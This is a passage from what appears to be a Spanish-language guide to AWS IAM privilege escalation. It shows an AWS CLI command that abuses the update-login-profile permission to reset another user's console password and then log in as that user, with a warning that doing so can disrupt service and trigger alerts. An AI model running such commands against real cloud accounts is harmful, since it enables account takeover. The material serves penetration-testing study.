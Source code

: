<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Se tiene que hacer uso del permiso **update-login-profile** :&#x20;

{% code overflow="wrap" %}
```
aws iam update-login-profile --user-name Spartan- Administrador --password Password321! --no-password- reset-required --profile privesc6
```
{% endcode %}

{% hint style="danger" %}
Al realizar un cambio o actualización de la contraseña de cualquier usuario, puede generar una disrupción del servicio y generar una alerta.
{% endhint %}

Finalmente ingresar por medio web como el anterior caso

<figure><img src="../../../.gitbook/assets/image (3) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>



## IAM:AddUserToGroup
